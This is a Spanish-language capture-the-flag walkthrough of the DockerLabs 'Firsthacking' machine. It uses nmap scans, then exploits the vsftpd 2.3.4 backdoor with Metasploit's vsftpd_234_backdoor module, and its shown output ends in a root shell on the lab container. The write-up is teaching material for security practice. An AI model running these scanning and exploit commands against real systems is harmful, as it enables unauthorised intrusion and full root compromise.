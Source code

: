 ```yaml
---
icon: flag
---
```


# Firsthacking DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip firsthacking.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh firsthacking.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-03 13:15 EST
Nmap scan report for 172.17.0.2
Host is up (0.000025s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.50 seconds
```

Vemos que solo tenemos un puerto abierto que es el `FTP` pero si intentamos entrar de forma anonima, veremos que no nos deja, probemos a buscar algun `exploit` asociado a la version del `FTP`.

## Exploit vsftpd 2.3.4

Si buscamos encontraremos un `exploit` asociado a el, la informacion esta en el siguiente link:

URL = [Exploit vsftpd 2.3.4](https://www.exploit-db.com/exploits/49757)

Vamos a entrar a `Metasploit` para ejecutar el `exploit` desde ese punto.

## Escalate Privileges

### Metasploit

```shell
msfconsole -q
```

Buscamos el `exploit`:

```shell
search vsftpd 2.3.4
```

Info:

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

Vemos que hay uno asociado a esa version, por lo que lo seleccionaremos de la siguiente forma:

```shell
use exploit/unix/ftp/vsftpd_234_backdoor
```

Y ahora lo tendremos que configurar poniendo lo siguiente:

```shell
set RHOSTS <IP_VICTIM>
exploit
```

Info:

```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.17.0.1:39909 -> 172.17.0.2:6200) at 2025-02-03 13:19:10 -0500

whoami
root
```

Y con esto veremos que ya seremos el usuario `root`, por lo que habremos terminado la maquina.
